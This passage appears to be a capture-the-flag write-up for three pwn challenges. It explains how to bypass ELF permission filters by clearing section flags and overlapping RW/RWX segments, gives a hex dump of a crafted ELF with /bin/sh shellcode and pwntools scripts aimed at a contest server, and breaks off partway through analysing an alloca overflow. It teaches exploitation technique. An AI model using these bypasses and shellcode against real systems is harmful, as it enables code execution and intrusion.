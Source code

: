 
1. Extremely Lame Filters 1
2. Extremely Lame Filters 2
3. squ1rrel-logon

If you want to get binary or bytes of ELF probs, DM me(Discord : guardianch)

--- 
# Extremely Lame Filters 1

`elf.py` analyze input ELF file.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!!"))
elf = parse(data)

for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")

elf.run()
```

`fairy.py` check sections flag of input file. If there is EXECINSTR flag in `sh_flags`, program turns off. However, `sh_flags` doesn't affect execution of the program, so just remove every EXECINSTR flag. funny trick lol. If section's flag is `06`, change it to `02`. After manipulating, send it to server.

# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5002')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex_nofilter', 'rb').read())
p.sendlineafter(b'!!', dt)
p.interactive()
```

---
# Extremely Lame Filters 2

`elf.py` is same as last prob.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!! (almost any)"))
elf = parse(data)

if elf.header.e_type != constants.ET_EXEC:
    print("!!")
    exit(1)

for segment in elf.segments:
    if segment.p_flags & SegmentFlags.X:
        content = elf.content(segment)
        for byte in content:
            if byte != 0:
                print(">:(")
                exit(1)

elf.run()
```

`e_type` should be `ET_EXEC`. It means elf must not have any linking. It is resolved by write shellcode and compile it. Second, it check segment's `p_flags`. `p_flags` affect program execution, so we can't use method used to solve `Extremely Lame Filters 1`. We need to know new trick haha.
First, load the bytes with RW permission, and load same position with RWX permission, but very small length. In this case, because the program data is allocated in units of one page, the permission of that page changes to RWX. However, it check only a little bytes. It's easy to say, but there's actually more to care about.

```
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
00000010: 0200 3e00 0100 0000 e800 0100 0000 0000  ..>.............
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 4000 3800 0400 4000 0000 0000  ....@.8...@.....
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0100 0000 0600 0000 0800 0000 0000 0000  ................
00000080: 0800 0100 0000 0000 0800 0100 0000 0000  ................
00000090: f500 0000 0000 0000 f500 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0100 0000 0700 0000  ................
000000b0: 0800 0000 0000 0000 0800 0100 0000 0000  ................
000000c0: 0800 0100 0000 0000 0800 0000 0000 0000  ................
000000d0: 0800 0000 0000 0000 0002 0000 0000 0000  ................
000000e0: 2f62 696e 2f73 6800 bf01 0102 0181 f7e1  /bin/sh.........
000000f0: 0103 0131 d231 f66a 3b58 0f05            ...1.1.j;X..
```

```
Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  <unknown>: 464 0x0000000000000000 0x00000001003e0002 0x00000000000100e8
                 0x0000000000000000 0x0000000000000000   W     0x38004000000000
  <unknown>: 400 0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000         0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x00000000000000f5 0x00000000000000f5  RW     0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x0000000000000008 0x0000000000000008  RWE    0x200
```

This is my binary. I set `Number of program headers` to 4, and `Start of program headers` to 0. Therefore program headers 1, 2 is abnormal. Program header 3 which has RW permission load bytes located in 0x8 to 0xfb(end of file), and Set `VirtualAddress` to 0x10008. Program header 4 which has RWX permission load only 8 bytes into the same position. Since bytes located in 0x08 to 0x0f is `\x00`, it can pass the check, and change permission to RWX. my shellcode starts at 0xe8, so set `Entry point address` to `0x100e8`. Now it works!
# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5003')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex4', 'rb').read())
p.sendlineafter(b')', dt)
p.interactive()
```

---
# squ1rrel-logon

```bash
[*] '/mnt/d/squ1rrel/squ1rrel-logon/terminal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    Stripped:   No
```

Partial RELRO, No canary, No PIE. But Nevermind. I don't use these.

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  print_banner();
  pthread_create(&userinfo_thread, 0LL, userinfo, 0LL);
  pthread_create(&auth_thread, 0LL, auth, 0LL);
  pthread_join(auth_thread, 0LL);
  return 0;
}
```

It use two threads.

```C
void *__fastcall auth(void *a1)
{
  char s1[256]; // [rsp+10h] [rbp-210h] BYREF
  char buf[264]; // [rsp+110h] [rbp-110h] BYREF
  int v4; // [rsp+218h] [rbp-8h]
  int fd; // [rsp+21Ch] [rbp-4h]

  fd = open("flag.txt", 0);
  if ( fd < 0 )
  {
    puts("Error initializing authentication. Please contact support if on remote.");
    exit(1);
  }
  v4 = read(fd, buf, 0x100uLL);
  buf[v4 - 1] = 0;
  close(fd);
  pthread_join(userinfo_thread, 0LL);
  printf("\x1B[1;36m[SYSTEM] Enter security token: \x1B[0m");
  readline(s1, 0x100uLL);
  if ( !strcmp(s1, buf) )
  {
    puts("\x1B[1;32m[ACCESS GRANTED] Welcome to the system\x1B[0m");
    system("/bin/sh");
  }
  else
  {
    puts("\x1B[1;31m[ACCESS DENIED] Invalid security token\x1B[0m");
    puts("\x1B[1;31m[SYSTEM] Session terminated\x1B[0m");
  }
  return 0LL;
}
```

`auth` read `flag.txt` content and write in stack. Then `userinfo_thread` operate mainly.

```C
void *__fastcall userinfo(void *a1)
{
  void *v1; // rsp
  void *v2; // rsp
  _QWORD v4[2]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-18h] BYREF
  char *v7; // [rsp+20h] [rbp-10h]
  char *v8; // [rsp+28h] [rbp-8h]

  v4[1] = a1;
  puts("\x1B[1;36m[AUTH] User identification required\x1B[0m");
  printf("First Name Length: ");
  __isoc99_scanf("%ld%*c", &v6);
  printf("Surname Length: ");
  __isoc99_scanf("%ld%*c", &v5);
  if ( v6 > 0x100000000LL || v5 > 0x100000000LL )
  {
    puts("Too long for our systems.");
    exit(1);
  }
  v1 = alloca(16 * ((v6 + 23) / 0x10));
  v8 = (char *)v4;
  v2 = alloca(16 * ((v5 + 23) / 0x10));
  v7 = (char *)v4;
  printf("First Name: ");
  readline(v8, v6);
  printf("Surname: ");
  readline(v7, v5);
  printf("Authenticating Employee %s %s\n", v8, v7);
  return 0LL;
}
```

`alloca` function is like `malloc`, but it use stack space. And don't you think that the name length limit of 0x100000000 is too long? If we input big number, 